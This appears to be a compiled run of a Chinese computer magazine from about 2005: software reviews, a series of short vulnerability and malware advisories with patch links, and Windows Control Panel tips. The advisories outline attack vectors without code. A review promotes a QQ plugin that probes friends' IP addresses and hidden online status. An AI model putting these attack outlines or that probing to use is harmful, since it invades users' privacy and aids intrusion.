  下载地址: http://www.onlinedown.net/soft/24324.htm

## 新软试用

- 北京读者李义：我前几天用了一款名为Deskloops的小软件，它把所有窗口变成了一个“圈”，虽然表面上看起来还是一样，但只要在任务栏上点击需要打开的窗口，所有窗口就会立刻“转”起来，迅速切换至指定窗口，非常有意思，如果点击屏幕的上边缘或右击系统托盘软件图标，就会弹出软件的设置窗口，非常方便。
  下载地址: http://www.xilokit.com/deskloops/Deskloops_Beta.exe

## 试用体验

- 湖北读者良海：前段时间QQ珊瑚虫推出了4.0正式版，该版本增加了“主动探测好友IP”的功能，这样就不必非要和对方聊天后，才能得到IP了。此选项在“珊瑚虫外挂”定制中进行设置。除此之外，另一大变化就是增加的“如来神掌”，用来查看好友是隐身，还是离线状态，方法很简单，发送“/rlsz QQ号”(不含引号)给新增的好友“珊瑚虫”，根据网络状态，稍候就会显示出结果。比如好友的QQ号是1234，只要发送/rlsz 1234给好友“珊瑚虫”即可。
  下载地址: http://www.skycn.com/soft/4934.html

## 最近更新

- MSN建群软件1.0.0.1
  升级指数：★★★★
  建立MSN群的软件。MSN Messenger以前的建群软件只能将自己的好友添加到该群中，但用这款软件可以将任意人添加到MSN群中。使用时只找一台电脑，申请一个MSN账号，以后只要让别人加该账号到好友中，然后将申请的MSN账号添加到软件中(类型选择“群聊用户”)，登录MSN账号即可。

- Visual Studio 2005 Express Editions
  升级指数：★★★★★
  微软推出的经典编程工具，原定49美元的Visual Studio 2005 Express Editions现在可以免费使用一年(截止日期为2006年11月6日)，你还等什么快赶上时代的脚步，更换你的编程工具吧。
  下载地址: http://dl.pconline.com.cn/html/1/1/dlid=13761&dltypeid=1&pn=0&.html

- PPLive Beta1.0.9.8
  升级指数：★★★
  非常不错的P2P网络电视软件。新版本在修复BUG的同时，修改了启动时的缓冲策略，对界面内部结构做了一定调整。
  下载地址: http://www.pplive.com/download/PPLiveSetup1.0.9.8.exe

- MirandaQQ 0.1.0.17-20051114
  升级指数：★★★★★
  一款第三方支持QQ协议的聊天软件，新版本增加了一项官方QQ都不具备的群连接功能(只加入一个群就可以参加另外一个群的讨论)，不过在笔者测试时由于服务器故障，暂停该服务，相信等大家看到本文时，该功能已经可以使用。此外，新版本还修正了数个BUG，非常值得一试。
  MirandaM下载地址: http://files.miranda-im.org/builds/miranda-v0403a39w.zip
  MirandaQQ下载地址: http://starkwong.ivehost.net/mimqq/

# 实用软件·软件

# 第十二期

### 漏洞再现:雅虎通存在非法执行脚本漏洞
影响系统:Yahoo! Messenger 5.X/6.0
漏洞分析:雅虎通这款流行的即时通讯软件最近被检测到一个安全漏洞。在5.X/6.0版本中，当攻击者通过好友标签里的“邀请朋友使用雅虎通”和“添加好友”选项邀请好友时，就可能在不必验证的情况下添加用户至好友列表。用添加好友功能发送邮件时，如果邮件模板中包含攻击者所使用的恶意代码，就有可能查看到负责生成此链接和发送邮件的模板，只要修改链接，就能让用户以为邮件邀请的发送者已经允许其添加为好友，从而不再发送请求直接通过验证。
补“洞”办法:目前YAHOO!还没有发布补丁程序。请用户随时关注官方的更新版本消息，地址为http://messenger.yahoo.com/

### 漏洞再现:Windows 媒体播放器加载任意网页漏洞
影响系统:Windows Media Player 9/10
漏洞分析:前不久Windows Media Player(以下简称WMP)9出现了验证错误漏洞，而最新的WMP 10也不安全，在其数字权限管理(DRM)中存在加载任意网页漏洞，攻击者可以创建一个恶意媒体文件，如果打开了该文件将无需交互就能加载站点，如果该站点存在可自动下载执行的恶意软件，用户的电脑将被攻击者完全控制。
补“洞”办法:微软公司这次难得反应迅速，在漏洞公布第二天就发布了相应补丁，安全公告92313，使用WMP 9/10的用户请到http://www.microsoft.com/technet/security/下载。

### 漏洞再现:让Windows XP SP2崩溃的大图片
影响系统:Windows 2000/XP SP1、SP2
漏洞分析:很早Windows对于图形文件的处理就存在严重问题，比如早期通过MS04-028补丁修复的溢出漏洞。最近，又有朋友发现访问超大图形文件时，会出现系统崩溃现象。而且不论Windows 2000和XP Pro SP1/SP2用户使用IE6.0或Firefox 1.0.3/1.0.4问题都会存在。当图片大小被设置成：等形式时，访问的用户电脑就会出现蓝屏现象，系统只有重启才能恢复。
补“洞”办法:目前微软还未公布相关补丁程序，用户如果不很需要图片浏览，可以在IE里设置不显示图片，当需要浏览某些图片时，可以在图片上点击右键选择单张图片的浏览，从而避免这种恶意攻击。

# 第十三期

### 漏洞再现:Windows 远程桌面协助服务程序漏洞
影响系统:Windows XP
漏洞分析:Windows XP中的远程桌面协议是微软Windows XP附带的一个远程帮助工具，它允许客户端通过验证后访问远程终端。但最近被发现有可能在用户使用时出现密码钥匙被窃取的危险漏洞，当用户进行远程管理连接时服务器并没有进行身份验证，这样就很可能被恶意攻击者轻易获得密码钥匙，从而有可能得到管理终端的权限。
补“洞”办法:目前还没有微软的官方补丁。

### 漏洞再现:RM格式文件也危险
影响系统:QQ2004全部版本、QQ2005 Beta1
漏洞分析:最近又一种新兴的QQ尾巴病毒出现，这条“尾巴”不同于以往，它是一个RM在线视频的链接，如果不小心点中，并且用RealPlayer打开，该视频文件就会打开一个病毒木马页面，将病毒拷贝到系统目录下，建立一个DLL文件来记录好友的昵称，向所有好友发送带毒的网页地址。
补“洞”办法:不要轻易打开好友发出的任何链接，暂时取消RealPlayer与RM、RA等格式的关联。同时请留意RM格式文件的创建时间，删除新创建的未知RM格式文件。

### 病毒再现:魔婆(Backdoor/Melpon)
病毒分析:“魔婆”是一个后门程序，若被点击运行后，将删除自身，在当前目录下建立同名文件夹，并向该文件夹中释放大量JPG图片，用户往往认为打开的就是一个真正的文件夹。此外，该病毒可在TCP端口80开启HTTP服务，黑客通过该HTTP服务可以抓取被感染电脑的屏幕，并能够浏览下载磁盘上的任意文件。由于该病毒将自身加入Windows防火墙的信任程序列表，Windows防火墙对于黑客通过病毒HTTP服务的浏览下载操作都不会报警。此外，该病毒还可以结合多种杀毒软件、防火墙和调试工具进程，重定向多个常用网站，使得大多数常用杀毒软件无法升级。
拆“着”办法:不要点击来源不明的文件，并打开杀毒软件的“实时监控”。

# 第十四期

### 漏洞再现:Firefox 多个脚本管理器安全机制漏洞
影响系统:Mozilla Firefox 1.0.4 以前版本
漏洞分析:现在有越来越多的人开始使用Firefox浏览器，因此漏洞也不可避免的暴露出来。远程恶意攻击者可以利用含有JavaScript脚本的程序，通过网站，在使用Firefox用户的电脑上利用“view-source:”和“jar”等语句绕过安全验证，从而执行具备提升权限功能的脚本，进而实现反向连接。
补“洞”办法:升级到最新的Firefox 1.0.4浏览器，经过协议审批验证就可以避免这种攻击。

### 漏洞再现:“博客杀手”通过博客传播的木马浮出水面
影响系统:各大BLOG服务器，如www.cnblog.com、www.blogcn.com等
漏洞分析:前不久网络上纷纷传说BLOG最容易被黑客利用传播病毒，今天果然出现了木马程序，这个木马程序是被黑客入侵博客服务器后放在数据库中被调用的，只要用户访问服务器上的网站与数据库相关页面，病毒就会通过网页木马自动运行。木马运行后，将在用户的系统目录下创建rundll64.exe文件，并在注册表中添加自启动项，病毒还通过修改注册表键值，改变IE默认连接到恶意病毒主页。由于现在拥有个人博客和使用博客的用户越来越多，预计木马病毒将出现各种各样的变种，希望大家多多关注。
补“洞”办法:还是在浏览器上做文章，如禁用ActiveX控件等，另外对个人博客上的可执行文件或者可疑文件不要轻易下载运行。

### 漏洞再现:IE和Firefox皆未幸免的浏览器漏洞
影响系统:IE 6.0、Firefox 1.14等多种流行的浏览器
漏洞分析:网络上常见的浏览器都受到这次发现的钓鱼式攻击的影响，原因是由于JavaScript不显示或包含其他的来源。如一个广为人知网站的访问者被恶意钓鱼攻击者诱骗在一个并非来自本网站的JavaScript对话框中输入信息，当然这一切并没有显示任何恶意网站的地址，从而形成钓鱼攻击。不过攻击者如果想成功地利用该缺陷，必须诱骗用户打开恶意网站上的一个链接。
补“洞”办法:微软竟然宣称这个漏洞只是IE的基本功能，不发布任何补丁。只有在最近发布的Opera 8.0.1中，这一问题得到了修正。在虚拟对话框里没有地址条的网页中，大家要谨慎面对，不要随便填写保密信息。

# 第十五期

### 漏洞再现:用pcAnywhere可以执行任意命令
影响系统:Symantec pcAnywhere 10.0/10.5/11.0
漏洞分析:随着网络技术逐渐普及，很多个人用户都架设了个人网站，并且在服务器端安装了pcAnywhere。前段时间，有人检测到pcAnywhere 11.5版之前的版本存在很严重的漏洞，即本地应用程序在用户列表上执行命令时没有进行严格的权限限制，可能出现低权限的用户可以执行某些具有高级权限的命令，从而导致攻击者远程获得系统管理权限。
补“洞”办法:诺顿公司已经发布了最新的pcAnywhere11.5版，消除了这个漏洞，另外，无法升级程序的用户可以将pcAnywhere默认端口5631修改为其他不易猜到的端口，而且不要将控制程序安装在系统默认路径，这样可以防止攻击者通过Web控制。最新版本的pcAnywhere可以从http://www.symantec.com/techsupport/soft/pcany/index.html下载到。

### 漏洞再现:AVI文件居然可以执行任意命令
影响系统:RealOne Player V2、RealPlayer 10/10.5
漏洞分析:RealPlayer的安装密度在个人电脑上非常高，最近RealPlayer被发现存在严重的堆栈溢出漏洞，攻击者可以构建一个带有命令指向的恶意AVI文件，当用户打开AVI文件时，RealPlayer会调用一个特定的DLL文件(vidpln.dll)，从而出现不规范分析，失去权限限制，导致攻击者制作的AVI文件可以执行任意指令。
补“洞”办法:Real公司已经发布了相关的漏洞补丁，请大家在Real的播放界面中选择“工具”选项然后点击“检查升级”来完成更新升级。

### 漏洞再现:PDF文件也能偷信息?
影响系统:Adobe Reader 7.0/7.0.1
漏洞分析:Adobe公司的Reader用于阅读PDF文件，是很多人的必装软件。目前在7.0与7.0.1版中发现，它们在处理XML外部实体时存在漏洞。

# 第十六期

### 漏洞再现:Microsoft Word畸形文档字体处理溢出漏洞补丁(MS05-035)
影响系统:Microsoft Word 2000/2002
补丁内容:微软的 Word 文档处理软件被发现在处理字体时会出现程序无法正确地验证数据漏洞，微软马上发布了相关的 MS05-035 补丁，补丁分别针对 Word 2000 和 Word 2002 中恶意攻击代码可导致远程缓冲区溢出的缺陷进行修补。并对含有特殊代码的 DOC 文档分析处理。
补丁下载:http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=CEE0864B-B196-48F4-A4B9-2ED7FB6D17D2#filelist (Word 2000 版) http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=A7E7D2C5-1E2A-4FFB-8FC2-B2B217015820 (Word 2002 版)

### 漏洞再现:QQ 网络硬盘离线正常使用漏洞
影响系统:腾讯 QQ 2005 版官方以及非官方版本、外挂
漏洞分析:QQ 现在是上网必不可少的工具，其扩展功能中的网络硬盘已经被越来越多的人使用。最近在 QQ 2005 版中被发现网络硬盘的一个严重漏洞，当 QQ 被迫下线，但网络并未中断的时候，QQ 的网络硬盘能照常使用，上传下载不受任何限制。如果 QQ 被盗后找回密码而对方还未在本地关闭 QQ 、那么盗窃者依旧可以通过 QQ 硬盘对受害者进行攻击，如上传捆绑木马到受害者 QQ 里等。
补‘洞’办法:漏洞是本地应用，主要防范手段还是防止 IE 等漏洞导致 QQ 密码被盗的问题。官方还未发布相关补丁，不过相信很快就会填补上这个漏洞的。

# 第十七期

### 漏洞再现:Microsoft Windows USB 驱动溢出漏洞
影响系统:Windows 9x/2000/XP/2003
漏洞分析:当操作系统进入 Windows 时代后，USB 设备渐渐成了个人电脑标准配件，最近 Windows 的 USB 驱动程序出现了溢出漏洞，由于驱动程序正确地对 USB 设备所提供信息进行分析，一旦插入了 USB 设备；操作系统会自动加载系统认为合理的设备驱动来处理新的硬件，攻击者可以利用系统未验证信息的漏洞执行恶意代码，从而执行木马或病毒程序。
补‘洞’办法:微软公司还未发布相关补丁，用户最好保证所有 USB 设备都有相关的驱动，防止恶意攻击者利用。

### 漏洞再现:Microsoft Internet Explorer JPEG 图形渲染溢出漏洞
影响系统:最新的 IE 6.0 SP2
漏洞分析:虽然 Firefox 的出现抢走了不小的 IE 浏览器市场份额，但 IE 在普通用户中还是有相当大的比重。最近 IE 最新版本 IE6.0 SP2 又出现可利用的溢出漏洞，攻击者能通过创建一个带有恶意代码的 HTML 页面在本地直接访问系统盘并且拥有管理权限。
补‘洞’办法:截稿前微软还未发布相关补丁，请用户随时关注微软的中国官方补丁公布。
下载地址:http://www.microsoft.com/downloads/search.aspx?displaylang=zh-cn&categoryid=7

# 第十八期

### 漏洞再现:Windows 远程代码执行漏洞
影响系统:Windows 2000/XP/2003
漏洞分析:Windows 的 Print Spooler 服务是用于管理打印进程的服务，此协议可以将文件加载到内存中以便打印。网络安全爱好者们最近发现该服务中存在远程代码执行的漏洞。攻击者可以对 Windows 2000 SP4 和 Windows XP SP1 版本的操作系统利用低权限的用户进行远程攻击导致系统崩溃。对于 Windows XP SP2 和 Windows Server 2003 版本的操作系统，攻击者必须利用本地登录的高级用户权限才能使 Print Spooler 服务出现拒绝服务的现象。
补‘洞’办法:微软公司已经发布了漏洞的相关补丁，补丁代号:(KB896423)。Windows XP 的补丁下载地址: http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=EF402946-1C3B-47E9-9D51-77D890DF8725 如果用户本地不需要使用打印机，可以在‘控制面板→计算机管理→服务’中停止 Print Spooler 服务。

### 漏洞再现:Windows 即插即用功能远程缓冲区溢出漏洞
影响系统:Windows 2000/XP/2003
漏洞分析:Windows 系统的即插即用功能远程缓冲区溢出，也就是最近网络上闹得翻了天的 MS-05039 溢出漏洞，漏洞对 Windows 2000 以上版本操作系统都有影响，其危害程度几乎可比去年的 MS-04011 震荡波溢出。现在网上一些黑客编译的攻击程序已经被公布。该攻击工具可远程对用户计算机进行攻击，并获取 SYSTEM 权限的 CMDSHELL(命令行管理权限)，从而远程监控被攻击用户的计算机。
补‘洞’办法:可参考本期的《三招搞定 Zotob 蠕虫》一文。

### 漏洞再现:Microsoft IE 6.0 SP1 存在代码执行漏洞
影响系统:IE 6.0 SP1
漏洞分析:微软最近发布了最新的 IE7.0 测试版的浏览器，但广大用户还在使用 Windows XP 集成的 IE6.0 SP1 版 Web 浏览器。最近绿盟网络安全小组的测试人员发现在 IE6.0 SP1 中通过创建一个恶意的 HTML 页面并诱使用户访问，攻击者可以远程以该用户权限执行任意代码，使浏览器在调用 COM 组件接口的参数出现非法错误，可能造成 IE 的崩溃。
补‘洞’办法:微软在 8 月 10 日更新的 MS05-038 安全公告中提供了相关的补丁下载;Windows XP 的补丁下载地址:http://www.microsoft.com/downloads/details.aspx?FamilyID=648b6f0e-1695-44e5-826a-43406df4858e&DisplayLang=zh-cn

# 第十九期

### 漏洞再现:Windows 键盘事件权限提升漏洞
影响系统:Windows 2000/XP/2003
漏洞分析:前段时间，微软的 Windows 操作系统又被发现数个危险漏洞，由于桌面应用程序(如 Explorer.exe)处理一些函数发送的软键盘事件时存在非法验证的设计失误。恶意攻击者可以利用溢出攻击，通过发送恶意的软键盘输入指令执行一些需要高权限才能运行的桌面应用程序。从而获得本地高级管理员的权限，执行任意代码。网络上已经被公布了一些网络安全爱好者编写的攻击代码，提醒用户小心被攻击。
补‘洞’办法:目前微软公司还没有提供相关补丁或者升级程序，推荐用户安装带有防溢出攻击的防火墙并更新到最新版本。另外，也可以在‘资源管理器’中打开 C:\Windows\System32，鼠标右击 CMD.EXE，选择‘运行方式→当前用户权限来限制 CMD.EXE’，防止计算机被溢出攻击。

### 漏洞再现:诺顿 AntiVirus 9.0 企业版杀毒软件出现密码泄露漏洞
影响系统:AntiVirus 9.0 企业版
漏洞分析:赛门铁克公司的杀毒软件被发现密码泄露的漏洞，利用这个漏洞攻击者可以获得进入服务器系统的用户名和密码，在杀毒软件 AntiVirus 9.0 连接到赛门铁克公司在线更新系统并下载更新的病毒特征码包时会自动生成一个记录文件，攻击者可以通过本地用户权限或者远程用户权限，可以利用这个漏洞从记录文件中清楚地查看到服务器的用户名和密码。
补‘洞’办法:用户可连接到赛门铁克公司实时更新服务器，下载新的杀毒签名文件或使用其他品牌的杀毒软件。

# 第二十期

### 漏洞再现:IIS 5.1 FAT/FAT32 文件系统网页源码泄露漏洞
影响系统:Windows XP 及 IIS 5.1
漏洞分析:IIS(Internet Infomation Server)是微软的 Windows NT4.0 以上操作系统自带的一个网络信息服务器，提供包含 Web 服务在内的多种网络服务功能。最近在 IIS 5.1 中一些网络安全爱好者发现了存在信息泄露漏洞。如果 IIS 所在分区为 FAT/FAT32 文件格式，恶意攻击者可以制作一个含有特殊代码攻击的信息包请求远程浏览 Web 目录内脚本文件的代码，如果攻击成功则攻击者将得到本地 Web 目录下所有文件的源码信息。
补‘洞’办法:由于微软还未发布相关补丁，如非必须，用户在安装操作系统时不要加载 IIS 5.1。如果已经安装了 IIS 系统。用户可以通过在‘添加/删除 Windows 组件’来卸载 IIS。或在安装操作系统的时候选用 NTFS 文件系统，也可避免此漏洞。

### 漏洞再现:IE 6.0 嵌入内容跨站漏洞
影响系统:IE 6.0
漏洞分析:微软 Windows 操作系统附带的 IE 6.0 在最近被发现中存在跨站脚本漏洞，在 Web 浏览器的 HTML 渲染引擎可以不经过身份验证执行注入恶意代码，恶意攻击者可以在 HTML 文件中使用其他可嵌入的文件，如 JPG、WAV、AVI、RM/RAM 等。如果嵌入的文件内含有攻击代码的话可以使攻击者在目标系统中执行任意代码。
补‘洞’办法:微软公司尚未发布相关漏洞补丁，建议有条件的用户可以升级到微软发布的 IE6.0 SP1 中文版浏览器 http://www.microsoft.com/downloads/details.aspx?FamilyID=648b6f0e-1695-44e5-826a-43406df4858e&DisplayLang=zh-cn=1e1550cb-5e5d-48f5-b02b-20b602228de6&displaylang=zh-cn，并更新最新的 IE6.0 SP1 累积安全更新程序 http://www.microsoft.com/downloads/details.aspx?FamilyID=68300b15-1cf9-45fb-875e-2ef6d2fbc9ed&displaylang=zh-cn。

漏洞再现:Firefox 火狐浏览器域名远程溢出漏洞
影响系统:Firefox 1.5 Beta1/1.0.6
漏洞分析:无独有偶，微软 IE 最主要的竞争对手火狐浏览器也被发现了漏洞，Firefox 浏览器在处理畸形 URL 时存在远程溢出漏洞，当攻击者通过对火狐浏览器发出一个畸形处理的数值附加到缓冲区就有可能实现溢出攻击，这个漏洞的攻击者可以导致崩溃或执行任意代码并加载木马或病毒文件在远程计算机上。
补“洞”办法:火狐的官方发布了临时的补丁文件修正了该漏洞，并且发布了最新的 Firefox 1.0.7 中文版浏览器，下载地址: http://download.mozilla.org/?product=firefox-1.0.7&os=win&lang=zh-CN。

漏洞再现:Windows 操作系统组件默认安装出现安全缺陷
影响系统:Windows 2000/XP SP1/SP2+IE 6.0
漏洞分析:微软在 Windows 中的捆绑组件 IE、Outlook Express 缺省安装过程中对进行远程访问者的身份验证不严格的安全缺陷，上述几个软件存在一个可能触发缓冲区溢出的缺陷，攻击者如果通过远程进行恶意攻击可以获得对用户系统文件进行匿名访问的权限。
补“洞”办法:如果不使用，则建议卸载 Outlook Express 等组件，安装 Foxmail 等第三方软件。右击桌面上的 IE 图标，选择“属性”，点击“安全”标签下的“自定义级别”，将弹出窗口“设置”框最下的“用户验证”改为“用户名和密码提示”项。

## 第二十一期

漏洞再现:利用 IE 四种漏洞，QQ 新病毒节日泛滥
影响系统:未打 IE6.1 SP1 补丁的所有系统
漏洞分析:十·一长假期间，QQ 新病毒通过向在线好友发送带有诱惑性的消息。诱使用户访问恶意网站，恶意网页利用 IE 的 HTA、MHT、HHCTRL、IFRAME4 种漏洞下载病毒程序并自动运行，木马一经运行除自动下载安装 QQ 病毒外，还向其他用户发送含有恶意代码的网址，同时用户电脑将会被黑客完全控制。这些木马针对各种杀毒软件修改了特征码从而不被查杀，能造成相当大的危害。
补“洞”办法:警惕 QQ 等即时通讯工具发来含网址的消息，不轻易点击其网址。在微软官方主页更新 IE 的最新版本为 IE6.1 SP1，喜欢新鲜的用户可以更新到 IE7.0 Beta 版。

漏洞再现:利用 Access 漏洞木马病毒出现
影响系统:Access 2000/2002/2003
漏洞分析:Access 是 Office 的默认安装组件，因此许多电脑中都有它的存在，普及率相当高，含有该病毒的木马程序伪装成微软数据库文件 MDB 格式传播，传播途径可能有邮件、即时通讯软件及恶意网页。一旦用户运行染有该病毒的 MDB 文件，木马就会被激活，黑客利用该病毒可以入侵系统，进行各种恶意操作。
补“洞”办法:此类病毒通过恶意网页和邮件传播，运行后会在进程中添加如 rundll32.exe 等类似系统自身进程的有害进程。微软官方尚未发布补丁，读者可以通过第三方软件管理监视系统进程，并更新杀毒软件最新病毒库进行防御。

## 第二十二期

漏洞再现:DirectX 处理 AVI 出现溢出漏洞 (MS05-050)
影响系统:DirectX 7.X/8.X/9.X 所有版本
漏洞分析:DirectX 是 Windows 中默认安装的组件程序，其中 DirectX DirectShow 组件用于系统中处理流媒体。一些网络安全爱好者在测试 AVI 文件变形加载命令过程中发现 DirectX 组件在处理 AVI 媒体文件时存在溢出漏洞。如果用 Windows Media Player 打开了被修改过的 AVI 文件，加载在 AVI 文件中的一些指令将被执行，入侵者将会得到用户电脑的高级管理权限。
补“洞”办法:微软已经对此漏洞发布了安全公告(MS05-050)并发布了相关补丁，下载地址为: http://www.microsoft.com/technet/security/Bulletin/MS05-050.mspx。针对 Windows XP SP2 DirectX8.1 的漏洞补丁为 http://www.microsoft.com/downloads/details.aspx?FamilyId=2636fce-49ea-4d06-80ba-21a84f3658a5

漏洞再现:WinRAR 被发现本地溢出漏洞
影响系统:WinRAR 2.9/3.0 ~3.5 所有版本
漏洞分析：几乎所有电脑上都装有 WinRAR，普及率相当高，继两年前出现过针对 2.X 版本的溢出后，在前段时间才推出的 WinRAR 3.5 中再次发现新的本地溢出漏洞。由于在将用户提供的字符串拷贝到静态进程缓冲区之前没有正确地验证其长度，WinRAR 在处理命令行时存在远程客户端溢出漏洞。如果攻击成功攻击者可以得到执行任何命令的管理权限。
补“洞”办法:WinRAR 官方尚未公布相关补丁，用户可以通过在命令行提示符模式下执行“netstat -an”（不包含引号）查看是否有连接 4718 端口的 IP 地址，并通过防火墙对其进行屏蔽。

漏洞再现:IE 累积安全更新(MS05-052)
影响系统:Windows 2000 SP4、Windows XP SP1/SP2
漏洞分析:IE 最近的确漏洞不断，当使用它浏览网页时，入侵者通过对 Msdds.dll (Microsoft DDS Library Shape Control)和其他 COM 组件对象的调用处理，进行注入式攻击，继承运行 IE 用户权限，从而允许攻击者完全控制受影响的系统。如果被攻击用户具有管理员权限，入侵者就可以在系统中安装木马程序，查看系统目录，更改或删除数据等。
补“洞”办法:微软已经对此漏洞发布了安全公告(MS05-052)，并发布了相关补丁。下载地址为 http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=41CCCA21-5010-49FF-A2DD-CB365F6FD3C5。如果由于各种原因无法升级补丁包，请用户尽量使用低权限的账号登录系统，浏览网页。另外可以通过 IE 的“Internet 选项”中对 Internet 的访问权限进行设置，通过禁用 ActiveX 控件来防止恶意入侵者的攻击。

## 第二十三期

漏洞再现:RealPlayer 皮肤文件导致溢出漏洞
影响系统:RealPlayer 8.0/10.5
漏洞分析:RealPlayer 图像播放软件随着网络的普及也被广大用户接受，并拥有很多漂亮的外表，但最近却被发现针对其外表文件的溢出攻击漏洞，攻击者如果构造一个含有命令的皮肤文件并存放在 WEB 网页程序中，当用户浏览该网站的时候本地系统会无需用户权限允许，自动利用 WEB 浏览器下载并自动应用 RealPlayer 外观文件(扩展名为 RJSEXTENSION)，并执行文件中包含的命令行。由于 RealPlayer 的外观文件是以 ZIP 格式存储在一起的各种图形和 INI 文件，而 RealPlayer 在处理 ZIP 文件时攻击者可以压缩包含有恶意数据的 RJS 文件并更改 RJS 文件长度域，这样在处理 ZIP 文件时就会出现堆溢出。从而实现命令的本地执行。
补“洞”办法:目前 RealPlayer 软件的开发商已经发布了升级补丁，用户可通过利用相关补丁免受恶意攻击。升级地址为 http://service.real.com/help/faq/security/051110_player/ZH-CN/。

漏洞再现:Windows 图形渲染溢出漏洞 (MS05-053)
影响系统:Windows XP SP1/SP2、Windows 2000SP4
漏洞分析:Windows XP/2000 在 2005 年依旧漏洞不断，某个网络安全组织发现 Windows 操作系统在对渲染 Windows 图元文件(WMF)和增强型图元文件(EMF)图形格式处理的过程中，没有经过严格的代码限制，如果攻击者构造一个的报告长度是 7FFFFFFFh 或 FFFFFFFFh 的超长记录图元文件，并对目标系统进行攻击，可能出现整数溢出，从而得到具备 SYSTEM 权限的用户，并执行任意命令。
补“洞”办法:该漏洞一般通过 HTML 网页形式被利用，如果用户在使用 Outlook 2002 或更高版本，请用纯文本格式阅读电子邮件以帮助保护自己免受来自 HTML 电子邮件的攻击，另外微软已经发布了 MS05-053 安全公告以及相关的漏洞补丁。升级地址为 http://www.microsoft.com/downloads/details.aspx?FamilyID=e38372b2-3bf6-4393-b9a4-f34248c8073e&displayLang=zh-cn(针对 Windows XP SP2 补丁)及 http://www.microsoft.com/downloads/details.aspx?FamilyID=f361fccb-b273-47e7-bb15-bc9c27073446&displayLang=zh-cn(针对 Windows 2000 SP4 补丁)。

漏洞再现:Flash Player 播放器出现内存访问漏洞
影响系统:Flash Player6.0/7.0
漏洞分析:相信大家对 Macromedia 公司的网页三剑客应该相当熟悉了，Macromedia 旗下的 Flash 更成为了划时代的标准工具，网络上 Flash 动画随处可见，只要上网的计算机基本都安装了 Flash 播放软件或插件。最近网络上一些 Flash 爱好者在制作动画的时候发现了 Flash 播放器一个函数指针错误，如果被攻击者在播放器/插件读取 SWF 文件时，将数组索引限制在 0x8000 范围内，攻击者可以控制函数指针值，并利用其执行添加管理员或运行木马等指令。
补“洞”办法:相关补丁 Macromedia 公司已经在官方网站上发布。升级地址为 http://www.macromedia.com/shockwave/download/triggerpages_mmcom/flash.html

漏洞再现:RealPlayer RM 文件远程溢出漏洞网页木马
影响系统:安装有 RealPlayer 10.5 的 Windows 2000/XP
漏洞分析:利用 RM 文件加载木马程序的网页木马被植入很多高访问量网站上，该网页木马通过创建特制的 RM 电影文件，利用最新的 RM 文件远程栈溢出漏洞对访问网页的目标计算机进行溢出攻击，当攻击成功后自动下载木马程序并执行，如果攻击者创建的 RM 文件中包含了键盘记录类木马将导致用户机密被窃取，如 QQ 密码、银行卡密码等。
补“洞”办法:该网页木马在执行后会自动开启一个 IE 浏览器去执行木马。如果用户发现出现此状况请立即用杀毒软件扫描系统盘是否被加载可疑文件。

## 掌控你的“控制面板”

“控制面板”是操作系统中的“军事重地”，大多数与系统有关的选项、设置都集中在“控制面板”中。要让你的Windows跑得更快，更适合自己使用，就一定不能忘了它。

### 卸载“控制面板”项目

“控制面板”中有一些项目根本用不到，每次打开“控制面板”后要找到几个常用的选项都要找半天。其实可以将不用的项目卸载掉（比如普通用户的“辅助选项”、宽带用户的“调制解调器”）。控制面板中的项目都保存在Windows系统目录中（Windows 98：%systemroot%\system，Windows 2000/XP：%systemroot%\system32），其后缀为CPL，只需删除相应的CPL文件即可卸载控制面板中的项目，以下是CPL文件对应的控制面板项目。

| 文件名 | 控制面板项目 |
| :--- | :--- |
| Access.cpl | 辅助功能选项 |
| Appwiz.cpl | 添加/删除程序 |
| Desk.cpl | 显示 |
| Inetcpl.cpl | Internet |
| Intl.cpl | 区域选项 |
| Joy.cpl | 游戏选项 |
| Main.cpl | 打印机、键盘、鼠标、输入法、字体 |
| Mmsys.cpl | 多媒体、声音 |
| Modem.cpl | 调制解调器 |
| Ncpa.cpl | 网络 |
| Password.cpl | 密码 |
| Sticpl.cpl | 扫描仪和照相机 |
| Sysdm.cpl | 系统和添加新硬件 |
| Themes.cpl | 桌面主题 |
| TimeDate.cpl | 日期时间 |

Windows 2000/XP中应注意的问题：在Windows 2000/XP中删除掉CPL文件后，几秒钟后就会自动还原，这是DLLCache在“搞鬼”。只需关闭Windows文件保护功能即可（参见http://www.people.com.cn/GB/it/2806818.html）。

### 修复错乱的控制面板图标

我们经常会遇到“控制面板”中部分或所有选项图标错乱的情况，分明点击的是“键盘”，打开的却是“电源选项”，结果仔细一看原来是对调了。此问题在每个Windows版本中都存在，这是由于调整缓存图标的文件被破坏了，修复的方法很简单：重新启动到“安全模式”（开机按住F8），打开%systemroot%目录，删除ShellIconCache（没有扩展名）文件，这样下次启动计算机时，Windows会自动重建正确的图标。

### 进入“控制面板”更简单

以往要打开“控制面板”中的某个项目，需要点击“开始→控制面板”，进入“控制面板”窗口找到合适的项目图标并进行设置。这种操作非常麻烦，如果像“网络连接”那样扩展出来就好了。

- Windows 2000/Me：点击“开始→设置→任务栏和开始菜单→高级”，在“开始”菜单设置中选中“扩展控制面板”，这样就能在“开始”菜单中直接单击打开“控制面板”项目了。
- Windows XP：点击“开始→设置→任务栏和开始菜单”，进入“开始菜单”选项卡，选择“经典开始菜单”框中的“自定义”按钮，勾选“扩展控制面板”（如果不使用“经典”样式，则进入“高级”选项卡勾选“显示为菜单”）。
- Windows 98：右击“开始”按钮，选择“资源管理器”，默认打开Windows安装目录的“Start Menu”文件夹，选择菜单“文件→新建→文件夹”，并将这个新建的文件夹命名为“Control Panel.{21EC2020-3AEA-1069-A2DD-08002B30309D}”（不含引号）。这样新建的文件夹会自动显示为“控制面板”图标，就可以通过“开始”菜单直接打开单个“控制面板”项了。

### 小提示

在扩展了“控制面板”显示模式后，如果还想用文件夹方式打开“控制面板”，可以右击“开始”菜单中的“控制面板”，选择“打开”，就能用系统默认的方式打开“控制面板”了。

### “控制面板”征兵

“控制面板”中不仅有系统安装后自带的设置项目，Windows也允许其他软件在“控制面板”里添加自己的项目，使“控制面板”队伍不断壮大。比如常用的Realplayer安装完成后会在“控制面板”中添加一个与自己同名的项目，其实它只是在系统目录中创建了一个名为Prefscpl.cpl的文件。

如果你有什么特殊需求，其实也可以自己添加“控制面板”新项目，只要下载一个Control Panel File Maker（http://www.jspayne.com/download/democpl.exe）就能收编新兵了。运行Control Panel File Maker，只要4个步骤就可以收编一个新兵。

